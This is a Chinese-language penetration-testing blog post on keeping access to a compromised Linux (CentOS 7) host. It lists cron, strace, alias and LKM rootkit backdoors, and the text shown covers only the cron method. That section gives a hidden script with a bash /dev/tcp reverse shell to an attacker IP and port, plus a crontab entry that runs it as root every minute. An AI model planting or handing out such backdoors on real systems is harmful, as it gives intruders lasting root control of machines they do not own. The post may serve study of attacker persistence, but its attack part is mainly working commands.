```yaml
---
title: day15-权限维持篇-Linux
date: 2024-03-21 23:04 +0800
categories: [内网,权限维持] 
tags: [横向移动,Linux]
img_path: /img/penetration/
---
```


## 0x00 前言

今天是有关于Linux权限维持的第二天内容，本次主要从linux的一些自带的命令入手，除此之外还涉及了一个内核加载隐藏的`Rootkit后门`。

- 定时任务-Cron后门 ==> 比较简单易用，较多使用，不怕重启
- 监控功能-Strace后门 ==> 可以当成一个键盘记录后门，扩大战果
- 命令自定义-Alias后门 ==> 效果还可以，但可能需要使用到python来上线
- 内核加载LKM-Rootkit后门 ==>  隐藏效果极佳，但可能存在安装方面的问题！

本次使用的环境依旧是云端的vps`centos7` ==> 腾讯云的。

## 0x01 定时任务-Cron后门

`cron`是利用系统的定时任务功能，系统会一定的时间内进行启动预先设置好的任务。因此，我们可以利用这个来进行反弹shell。具体的`cron`设置如下：

![截图](8f2dcabdd9d4658de88e5d092fc640ad.png)

详情可参考：https://www.runoob.com/w3cnote/linux-crontab-tasks.html

#### 利用

1、编辑后面反弹程序：

构建一个sh文件：

```sh
#!/bin/bash
bash -i >& /dev/tcp/[ip]/[port] 0>&1
chmod +x ~/.yuan.sh
```

2、添加定时任务：

```bash
vim /etc/crontab
```

```sh
*/1 * * * * root ~/.yuan.sh
```

> 语法的意思是： 每个一分钟就以root权限执行.yuan.sh这个文件

然后我们去攻击机的vps上监听对应端口，然后等待一分钟左右，就会看到shell传过来：

![截图](e104d2e89432dd7f0bbde8dc12945795.png)
